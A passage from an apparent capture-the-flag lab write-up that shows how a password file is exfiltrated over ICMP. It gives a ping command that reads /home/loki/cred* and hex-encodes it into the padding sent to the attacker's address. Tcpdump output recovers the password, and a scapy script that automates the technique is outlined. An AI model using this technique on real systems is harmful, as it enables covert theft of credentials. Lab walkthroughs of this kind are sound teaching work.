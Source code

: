 The command I’ll run is:

`ping -c 1 -p $(echo "0xdf0xdf0xdf0xdf" | cat /home/loki/cred* - | xxd -p -l 16 -s 0) 10.10.14.15`

I get:

```

root@kali# tcpdump -i2 -nnXSs 0 icmp                    
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes   
09:58:02.737594 IP 10.10.14.15 > 10.10.10.92: ICMP echo reply, id 3786, seq 1, length 64
        0x0000:  4500 0054 9c17 0000 4001 b213 0a0a 0e0f  E..T....@.......
        0x0010:  0a0a 0a5c 0000 03df 0eca 0001 4521 2e5c  ...\........E!.\
        0x0020:  0000 0000 735b 0a00 0000 0000 7061 7373  ....s[......pass   <-- output starts here
        0x0030:  3a20 6c6f 6b69 6973 7468 6562 7061 7373  :.lokiisthebpass   <-- repeats after 16 bytes
        0x0040:  3a20 6c6f 6b69 6973 7468 6562 7061 7373  :.lokiisthebpass
        0x0050:  3a20 6c6f                                :.lo

```

The first 16 bytes of the file are back: `pass: lokiistheb`

Now, update to `-s 16` for new offset, and run again:

```

10:00:24.268269 IP 10.10.14.15 > 10.10.10.92: ICMP echo reply, id 3804, seq 1, length 64
        0x0000:  4500 0054 dcd5 0000 4001 7155 0a0a 0e0f  E..T....@.qU....
        0x0010:  0a0a 0a5c 0000 67a0 0edc 0001 d321 2e5c  ...\..g......!.\
        0x0020:  0000 0000 8e26 0300 0000 0000 6573 746e  .....&......estn
        0x0030:  6f72 7365 676f 640a 3078 6466 6573 746e  orsegod.0xdfestn
        0x0040:  6f72 7365 676f 640a 3078 6466 6573 746e  orsegod.0xdfestn
        0x0050:  6f72 7365                                orse

```

I see the rest of the file, and my “0xdf”, indicating the end of the file, with contents:

`pass: lokiisthebestnorsegod`

#### Scripted

Then I wanted to take this up a level, so I wrote a python script to handle this for me. This is certainly beyond necessary, but could come in handy down the road.

I’ll use the same concepts as above, with a few tweaks:
- Instead of sending a request per 16 bytes, I’ll have the command on the target loop over the results and send the appropriate number of pings. I’ll remove newlines from the xxd output, and then use `fold -w32` to add a newline every 32 characters (16 bytes). Then I’ll have bash read line by line and send pings.
- I’ll use the `sniff` function from `scapy`, with a filter to only capture ICMP Echo Requests. I’ll write a processing function that will get the data out of each packet, add it to a buffer, and check for my marker to see if I’ve reached the end of the file. If so, I’ll print and clear the buffer. I’ll also check for packets which contain only marker, and ignore those.
- I’ll run the sniffing in a thread, so that it can happen in the background while I interact with the loop.
- I’ll have an infinite loop run taking file name, and then using requests to send the POST to make the pings come back.
